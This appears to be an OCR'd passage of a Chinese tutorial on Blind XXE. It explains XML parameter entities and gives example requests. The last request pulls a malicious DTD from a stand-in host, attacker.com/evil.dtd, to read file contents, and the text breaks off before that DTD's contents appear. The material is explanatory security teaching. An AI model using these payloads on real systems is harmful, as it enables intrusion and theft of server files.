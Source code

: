 ```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd; 
```

参数实体在我们 Blind XXE 中起到了至关重要的作用

接下来怎么做？（解决办法）

除了**一般实体**，这是我们到目前为止所看到的，还有**参数实体**。 以下是参数实体的外观。它与一般实体相同，除了它存在于DTD内部并以％作为前缀开始，以指示XML解析器正在定义参数实体（不是通用实体）。在下面的示例中，参数实体用于定义通用实体，然后在XML文档内部调用该实体。

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE data [

<!ENTITY % paramEntity

“<!ENTITY genEntity ‘bar’>”>

%paramEntity;

]>

<data>&genEntity;</data>` 
```

预期的response:

```
HTTP/1.0 200 OK `bar` 
```

考虑到上面的示例，攻击者现在可以通过创建在**[attacker.com/evil.dtd上](http://attacker.com/evil.dtd%E4%B8%8A)**托管的恶意DTD，将上面的理论CDATA示例转换为工作**攻击。**

**request:**

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE data [

<!ENTITY % dtd SYSTEM

“[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)”>

%dtd;

%all;

]>

<data>&fileContents;</data>` 
```

**攻击者DTD（attacker.com/evil.dtd）**
